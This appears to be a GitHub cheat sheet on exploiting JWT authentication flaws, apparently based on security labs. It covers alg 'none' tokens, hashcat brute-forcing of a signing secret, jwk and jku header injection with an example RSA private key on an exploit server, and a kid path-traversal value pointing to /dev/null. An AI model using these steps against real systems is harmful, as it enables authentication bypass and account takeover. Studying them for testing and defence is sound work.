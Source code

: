 ## JWT
JSON web tokens (JWTs) are a standard format for sending cryptographically signed JSON data between systems. They're commonly used in authentication, session management, and access control mechanisms. This means that if an attacker can successfully modify a JWT, they may be able to escalate their own privileges or impersonate other users.
## Exploiting JWT
Use inspector in Burp to work with JSON value.
### Accepting arbitrary signatures
JWT libraries typically provide one method for verifying tokens and another that just decodes them. For example, the Node.js library jsonwebtoken has ```verify()``` and ```decode()```. Occasionally, developers confuse these two methods and only pass incoming tokens to the ```decode()``` method. This effectively means that the application doesn't verify the signature at all. So, can provide your arbitrary value in json data to access some malicious goals, like changing user value to ```admin/administrator``` to achieve administritive priviledge. 
### Accepting tokens with no signature
JWT format ```header.payload.signature```.
```
1. Set alg parameter value to none.
2. Set/change username, role, id in paylaod.
3. Remove the signature from the JWT, but remember to leave the trailing dot after the payload.
```
### JWT authentication bypass via weak signing key (Bruteforcing)
 When implementing JWT applications, developers sometimes make mistakes like forgetting to change default or placeholder secrets. They may even copy and paste code snippets they find online, then forget to change a hardcoded secret that's provided as an example. In this case, it can be trivial for an attacker to brute-force a server's secret with a wordlist using hashcat.
 ```
hashcat -a 0 -m 16500 eyJraWQiOiIyZTI4MDIyYy02NWQ3LTRjNTEtYjU3Ni1mYWY3Mjg4MzVhMTUiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTcxMTIyMDc5MSwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.gteqm9hkHA6PdSv0pqbXBeUCON_8kwelR7Be1NI6WMs jwt.secrets.list
```
### JWT header parameter injections
 According to the JWS specification, only the alg header parameter is mandatory. In practice, however, JWT headers (also known as JOSE headers) often contain several other parameters. The following ones are of particular interest to attackers.
```
jwk (JSON Web Key) - Provides an embedded JSON object representing the key.

jku (JSON Web Key Set URL) - Provides a URL from which servers can fetch a set of keys containing the correct key.

kid (Key ID) - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. Depending on the format of the key, this may have a matching kid parameter.
```
#### Injecting self-signed JWTs via the jwk parameter
Ideally, servers should only use a limited whitelist of public keys to verify JWT signatures. However, misconfigured servers sometimes use any key that's embedded in the ```jwk parameter```. You can exploit this behavior by signing a modified JWT using your own RSA private key ```kid```, then embedding the matching public key in the ```jwk header```.
```
1. Send to Repeater.
2. Go to JSON Web Token tab to change payload info.
3. Go to JWT Editor to generate new RSA key kid.
4. Go to JSON Web Token tab >> select Attack >> select Embedded JWK >> press OK to add new generated kid.
5. Now send HTTP request.
```
#### Injecting self-signed JWTs via the jku parameter
Instead of embedding public keys directly using the jwk header parameter, some servers let you use the jku (JWK Set URL) header parameter to reference a JWK Set containing the key. When verifying the signature, the server fetches the relevant key from this URL. Sometimes attacker can take advantange of it to bypass authentication via jku header. More secure websites will only fetch keys from trusted domains, but you can sometimes take advantage of URL parsing (See SSRF) discrepancies to bypass this kind of filtering.
```
1. Send to Repeater.
2. Go to JSON Web Token tab to change payload info.
3. Go to JWT Editor to generate new RSA key.
4. Host this RSA key in your exploit server in JSON format with a path /.well-known/jwks.json.

Example:
{
    "keys": [
     Your RSA key
    ]
}
or,
{
    "keys": [
    {
    "p": "9NWaOlD0WI9Ar5o1uTI9MLQ20LkaCej_Hh8sFkWPtYwzPin4YPgFWCL-YhRUELlqLr5sC1irK_D03WI_isk294jxhCFOy3kRWC07NQjLS1A71UVAaftoCybmpQiINvN5ZKnoGRQessKILTBc4qAZ_MOZfxkqFXHRfkIDSAxTCrc",
    "kty": "RSA",
    "q": "10b7QrJOLGFtcIvTwuWeGekt-VhJOfU-zFX3Tn2sOT0VMJoFtPAD4p4EyNbUEW1ih-kjeCA7xfAvZS67cN_y-sj0gbOQ7ikA0p6P4Te0-5FYmewpywIYJnWMy1QEI9NdF6YJ-rdLez9QysvL8NnLYmQQ1iI1NQuOq3K0oXwN-70",
    "d": "AZ6PTjIMVFAeYF5hkygJzet3FxhM7xRo5K9BA5vkL5l4XgLvBB0EjUORFKf2obFmskEfyK5HQIu0BAJecFtPaOYSlCHwG5q_iDT6TlSUQTvXKv9VQ7WRULRFuI3mvh9bYJORcF9Gahdb9xhk5IUz-To6xIgi8kbB0R1Ou1lTjONnppl2x1mxkEJhoqkumrKqZ2RhW0tOS4H6JXwfvH_dUcEJjAnMGmt3Gbi9VzNH7yvIHvFJ1nqCMH0nfKlPW6lmc6xeBopt9fFF9cFnuCGwRgbXO8Xl8AUKQkzCouLAPjhVmPNFiX8AYamFwNJGRnT9rGmDV3ZCI8N2RLVWgStsJQ",
    "e": "AQAB",
    "kid": "d487d8ca-98db-4a06-be52-f7f1cb12a6f1",
    "qi": "xLTBO5hWy8u7B1H3Ab3CjD_UgYfQSkBBoLeFeT6iTUklGU1DvZnURW3B0qOSS7RUZo7_PmV-vDmMuvOnVS0xCs-kujCQYx5LhOYbe2kKtL1GNcGaDCpF-Dc4R4yC8x_RJtQst4axiTMtDBIuH9bEGrkwF-IhXdoHOHcN9ljc7Cs",
    "dp": "2_2-ad3p4FU_s0mmMjUBJG0Zv-xCiFsSOPebfpucaG2Ecbv2kPLqomo3FtvbOXfRABVcMcnHbGFDNFUecU8hk8Q59xaSnWO4gPmLdLjlKlP6n0Rtf41FzJd0sR98fZvCHQBKK5aXitoe0DPfkkZ3c1Yx6zEqTkCKE5-vISLpzvs",
    "dq": "eubMNYSkOpQYrcM2TzNV8ob8Nzke_Ra1FmURvl7i_v6PZWLZVTYdkbgTFTIIejaPpPYFyOPmHBgGhuaKHmPMTT6C0LVaTY1dKeFaVQK_sUuGYMHCDmMQtIwxqDc78dQOdpzVX6xbTG6WSmDU-pjskyx7rDR1WeZSOjFPTE4NkaU",
    "n": "zeNHPF2_klxmfQ_ENEz1d5MPufzt3bUOFJ2hLho4QhPGCuzF2XHi9Xi12UjPPfAD3LmcHBVOkahBDT8Xi00_ANWBAjSY20Z9-OyP-zuAxMZXcpKTt5LT7VB6T8z2y0NkQ7X2xmvjsXMPId3oJi7aiYxXi4OkdpA8YAhZ9gVeKJ5W3tcNIfRkXVkYm3AkLpR7N0IcXsFalzNDGHCE-EBCg1RKbayDG7R5HTtRecnz26L_ibPTB1wi21w3m-dBV1Mp1iWQFWBgcjtavE7e4WMvJk69xTyNsk9LFfKkt1LclFzPUPybEJYldSWee7AaAgQEY2RKYkPFTgUm1VLFtBtWGw"
}
    ]
}
5. Change kid to new RSA key kid.
6. Now add a new header parameter jku and paste exploit server url.
Example
"jku": "https:exploit.server/.well-known/jwks.json"
7. Now press >> sign in JSON Web Token tab >> Don't modify header >> send request
```
#### Injecting self-signed JWTs via the kid parameter
 Servers may use several cryptographic keys for signing different kinds of data, not just JWTs. For this reason, the header of a JWT may contain a kid (Key ID) parameter, which helps the server identify which key to use when verifying the signature. Verification keys are often stored as a JWK Set. In this case, the server may simply look for the JWK with the same kid as the token. However, the JWS specification doesn't define a concrete structure for this ID - it's just an arbitrary string of the developer's choosing. For example, they might use the kid parameter to point to a particular entry in a database, or even the name of a file. If this parameter is also vulnerable to ```directory traversal```, an attacker could potentially force the server to use an arbitrary file from its filesystem as the verification key.  This is especially dangerous if the server also supports JWTs signed using a symmetric algorithm. In this case, an attacker could potentially point the kid parameter to a predictable, static file, then sign the JWT using a secret that matches the contents of this file. You could theoretically do this with any file, but one of the simplest methods is to use ```/dev/null```, which is present on most Linux systems. As this is an empty file, reading it returns an empty string. Therefore, signing the token with a empty string will result in a valid signature. If the server stores its verification keys in a database, the kid header parameter is also a potential vector for ```SQL injection``` attacks.
 ```
Generate a suitable signing key

1. Send to Repeater.
2. Go to JSON Web Token tab to change payload info.
3. Go to JWT Editor to generate New Symmetric Key.
4. Replace the generated value for the k property with a Base64-encoded null byte (AA==). Note that this is just a workaround because the JWT Editor extension won't allow you to sign tokens using an empty string.
5. Click OK to save the key.

Modify and sign the JWT

1. In the header of the JWT, change the value of the kid parameter to a path traversal sequence pointing to the /dev/null file:
    ../../../../../../../dev/null
2. In the JWT payload, change the value of the sub claim to administrator/victim.
3. At the bottom of the tab, click Sign, then select the symmetric key that you generated in the previous section.
4. Make sure that the Don't modify header option is selected, then click OK. The modified token is now signed using a null byte as the secret key.

If this not work, try this >> https://youtu.be/hpQfxY8X4tI?si=oO-PYFtNsJ0GR8mk
1. Follow previous steps.
2. In header add this two additional parameter "typ": "JWT","K": "AA==" (without encoding AA==)
3. Replace the generated value for the k property without encoding AA==.
```





